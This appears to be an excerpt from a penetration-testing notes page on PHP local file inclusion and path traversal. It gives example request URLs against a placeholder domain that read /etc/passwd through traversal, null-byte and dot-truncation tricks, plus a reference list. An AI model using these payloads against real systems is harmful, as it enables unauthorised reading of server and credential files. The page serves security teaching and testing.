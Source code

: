 #### Absolute Path Traversal

```text
http://{{< param "war.rdomain" >}}/index.php?page=/etc/passwd
```

#### Relative Path Traversal

```text
http://{{< param "war.rdomain" >}}/index.php?page=../../../etc/passwd
```

### Null Byte

Sometimes applications append extra characters,
like file extensions,
to the input variable.
A null byte will make the application
ignore the following characters.

```text
http://{{< param "war.rdomain" >}}/index.php?page=../../../etc/passwd%00
```

{{<hint warning>}}
PHP fixed the issue
in version 5.3.4. <https://bugs.php.net/bug.php?id=39863>
{{</hint>}}

### Dot Truncation

In PHP,
filenames longer than 4096 bytes
will be truncated and,
characters after that,
ignored.

```text
http://{{< param "war.rdomain" >}}/index.php?page=../../../etc/passwd................[ADD MORE]
http://{{< param "war.rdomain" >}}/index.php?page=../../../etc/passwd\.\.\.\.\.\.\.\.[ADD MORE]
http://{{< param "war.rdomain" >}}/index.php?page=../../../etc/passwd/./././././././.[ADD MORE]
http://{{< param "war.rdomain" >}}/index.php?page=../../../[ADD MORE]../../../../../etc/passwd
```

{{<hint warning>}}
In PHP:
`/etc/passwd` = `/etc//passwd` = `/etc/./passwd` = `/etc/passwd/` = `/etc/passwd/`
{{</hint>}}

### Encoding

Manipulating variables that reference files
with “dot-dot-slash" (`../`) sequences and its variations,
or using absolute file paths,
may allow bypassing poorly implemented input filtering.
[^swissky-dt]


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.